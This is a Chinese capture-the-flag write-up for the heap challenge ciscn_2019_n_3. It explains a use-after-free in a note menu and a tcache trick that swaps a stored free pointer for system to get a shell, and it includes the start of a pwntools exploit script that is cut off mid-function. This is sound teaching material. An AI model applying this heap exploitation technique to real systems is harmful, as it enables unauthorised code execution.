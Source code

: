 主要函数

![](https://tva1.sinaimg.cn/large/007S8ZIlly1ghwcx1gs4vj30xk0u0tj7.jpg)

调用了system函数

![](https://tva1.sinaimg.cn/large/007S8ZIlgy1ghwcxc8mp6j31ju0rc0w0.jpg)

![](https://tva1.sinaimg.cn/large/007S8ZIlgy1ghwdctb6whj31a20963yy.jpg)

![](https://tva1.sinaimg.cn/large/007S8ZIlgy1ghwcxmbt0tj31hy0am3yz.jpg)

一道菜单题，函数逻辑是

申请一个note的时候，先申请一个大小为0xc的chunk，用于存放print函数和free函数的函数指针以及存放内容chunk的地址，再申请一个chunk用来存放输入的内容（将这个chunk的指针放在上一个chunk中）

![](https://tva1.sinaimg.cn/large/007S8ZIlgy1ghwdc8f6uij30hy0hoq2v.jpg)

又通过records数组来保存每个note对应的低地址的chunk

释放一个note的时候，先释放高地址chunk，再释放低地址chunk

如果我们申请一个size为0xc的chunk再释放掉的话，tcache中

![](https://tva1.sinaimg.cn/large/007S8ZIlgy1ghwdidmdt1j314m0h83yz.jpg)

释放后没有清空records数组中chunk的指针，存在uaf漏洞

由于每个note的低地址chunk中保存着free的函数指针，再释放的时候又要将两个chunk都释放掉，如果我们能控制保存函数指针的chunk，将free函数的函数指针改为system函数plt表地址，再让这个note的高地址chunk或低地址chunk内容为"sh"字符串，就能在释放这个note时gatshell

可以先申请一个size为0xc的note(chunk0)和一个size为其他大小的note(chunk1)，再将两个note都释放，构造这样的tcache bin

![](https://tva1.sinaimg.cn/large/007S8ZIlgy1ghwe33stnaj314k0i8jry.jpg)

`0x8b74180`和`0x8b74160`在records数组中都作为低地址的chunk没有被清空

如果下次申请的是size为0xc的note，就会将`0x8b74180`作为低地址的chunk，`0x8b74160`作为高地址的chunk分配出来

也就是说我们就能控制`0x8b74160`中的内容，从而在原来应该是print函数指针的地方写入"sh\x00\x00"，在原来应该是free函数指针的地方写入system函数地址

下次循环只要free掉chunk0，就相当于执行了`system(sh)`

exp

```python
#!/usr/bin/env python2
# -*- coding: utf-8 -*-
from pwn import *
context.log_level='debug'

p = process('./ciscn_2019_n_3')
#p = remote("node3.buuoj.cn", 29437)


def add(content, idx, size=32):
	p.recvuntil('CNote')
	p.recvuntil(' > ')
	p.sendline('1')
	p.recvuntil(' > ')
	p.sendline(str(idx))
	p.recvuntil(' > ')
	p.sendline('2')
	p.sendline(str(size))
	p.recvuntil(' > ')
	p.sendline(content)

def delete(idx):
```
